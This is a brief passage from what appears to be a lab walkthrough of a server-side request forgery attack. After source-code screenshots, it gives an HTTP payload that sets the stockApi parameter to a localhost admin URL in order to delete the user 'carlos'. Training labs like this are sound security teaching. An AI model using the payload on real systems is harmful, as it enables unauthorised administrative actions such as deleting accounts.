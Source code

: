 ![img](media/66c9499168014159032c111080a4eae6.png)

From the source code we find using a GET request we can delete a user:

![img](media/5f7c6d2e47701789c7bb545524bd8d27.png)

So we can delete “carlos” with this payload:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
POST /product/stock HTTP/2
...

stockApi=http://localhost/admin/delete?username=carlos
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
